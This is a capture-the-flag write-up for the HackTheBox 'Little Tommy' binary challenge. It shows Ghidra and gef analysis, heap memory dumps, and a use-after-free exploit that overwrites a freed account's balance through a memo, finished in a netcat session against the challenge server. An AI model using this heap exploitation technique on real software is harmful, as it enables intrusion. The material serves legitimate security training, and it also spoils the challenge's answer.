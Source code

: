 # Little Tommy

Completed: Yes
Date: Jun 20, 2021 → Jun 20, 2021
Platform: HackTheBox

Open the binary in ghidra.

The program just gets the input from 1 to 5. 

Number 1 - create an account with First name and Last name. Both are the size of 29 bytes plus 3 zero bytes.

The entire account is just First name + Last name + Account balance. The size is 72 bytes.

Number 2 shows you the account.

Number 3 deletes your account.

Number 4 stores the string after your account. The string has a size of no more than 256 bytes.

Number 5 prints the flag if you pass the condition. What is this condition?

```bash
if ((main_account == (char *)0x0) || (*(int *)(main_account + 0x40) != 0x6b637566)) {
        puts("\nNope.");
      }
      else {
        system("/bin/cat flag");
      }
```

```bash
0x0804891e <+706>:   mov    eax,ds:0x804a048
   0x08048923 <+711>:   mov    eax,DWORD PTR [eax+0x40]
   0x08048926 <+714>:   cmp    eax,0x6b637566
   0x0804892b <+719>:   jne    0x804893f <main+739>
   0x0804892d <+721>:   sub    esp,0xc
   0x08048930 <+724>:   push   0x8048bf4
   0x08048935 <+729>:   call   0x80484a0 <system@plt>
```

So, we need to increase the size of our account balance and also make it to be equal to 0x6b637566 or `fuck`. There are no overflows. All sizes are normal, vulnerable functions are not used. Thus, remains to find some vulnerability with the heap. And this is the easy part because you already could see it in option 3 of the program. If you have an account and you'll try to delete it and then use it, it will be used fine. 

Here is the hard part - determine what the heck is with this challenge. I tried to exploit it on my machine, but it wasn't exploited. Then, I saw this: [https://forum.hackthebox.eu/discussion/245/little-tommy](https://forum.hackthebox.eu/discussion/245/little-tommy). There people said that this is easy to exploit remotely.

How to exploit it? Go in `gef`:

```bash
gef➤  b *main + 706
Breakpoint 1 at 0x804891e
gef➤  r
Starting program: /home/kali/Downloads/little_tommy 

#################### Welcome to Little Tommy's Handy yet Elegant and Advanced Program ####################

1. Create account
2. Display account
3. Delete account
4. Add memo
5. Print flag

Please enter an operation number: 1

First name: aaa
Last name: aaaa

Thank you, your account number 134527424.

1. Create account
2. Display account
3. Delete account
4. Add memo
5. Print flag

Please enter an operation number: 4

Please enter memo:
fuckfuckfuck

Thank you, please keep this reference number number safe: 134527504.

1. Create account
2. Display account
3. Delete account
4. Add memo
5. Print flag

Please enter an operation number: 5

Breakpoint 1, 0x0804891e in main ()

gef➤  x/50x $eax
0x804b9c0:      0x00616161      0x00000000      0x00000000      0x00000000
0x804b9d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b9e0:      0x61616161      0x00000000      0x00000000      0x00000000
0x804b9f0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804ba00:      0x00000000      0x00000000      0x00000000      0x00000021
0x804ba10:      0x6b637566      0x6b637566      0x6b637566      0x0000000a
0x804ba20:      0x00000000      0x00000000      0x00000000      0x000215d9
```

You can see that the heap contains my `aaa` strings in two blocks of 32 bytes. After them, the one 16 bytes block with zeros and 0x21. After this, the block that stores the memo. Let's continue and free our account:

```bash
gef➤  c
Continuing.

Nope.

1. Create account
2. Display account
3. Delete account
4. Add memo
5. Print flag

Please enter an operation number: 3

Account deleted successfully

1. Create account
2. Display account
3. Delete account
4. Add memo
5. Print flag

Please enter an operation number: 5

Breakpoint 1, 0x0804891e in main ()
```

See the address in eax again:

```bash
gef➤  x/50x $eax
0x804b9c0:      0x00000000      0x0804b010      0x00000000      0x00000000
0x804b9d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b9e0:      0x61616161      0x00000000      0x00000000      0x00000000
0x804b9f0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804ba00:      0x00000000      0x00000000      0x00000000      0x00000021
0x804ba10:      0x6b637566      0x6b637566      0x6b637566      0x0000000a
```

It was freed. Now, the program "must think" that this place in the heap is freed and it can use it again. So, after freeing you use the th option and fill this place with `fuck` until you put fuck in the balance part. This is the solution. If you will try it locally, It won't work. Try remotely:

```bash
$ nc 206.189.20.127 32015

#################### Welcome to Little Tommy's Handy yet Elegant and Advanced Program ####################

1. Create account
2. Display account
3. Delete account
4. Add memo
5. Print flag

Please enter an operation number: 1
1

First name: a
a
Last name: a
a

Thank you, your account number 150452248.

1. Create account
2. Display account
3. Delete account
4. Add memo
5. Print flag

Please enter an operation number: 3
3

Account deleted successfully

1. Create account
2. Display account
3. Delete account
4. Add memo
5. Print flag

Please enter an operation number: 4
4

Please enter memo:
fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck
fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck

Thank you, please keep this reference number number safe: 150452248.

1. Create account
2. Display account
3. Delete account
4. Add memo
5. Print flag

Please enter an operation number: 5
5
HTB{}

1. Create account
2. Display account
3. Delete account
4. Add memo
5. Print flag

Please enter an operation number
```

strdup() function will just store the copy of the string in its argument after allocated account space in the heap.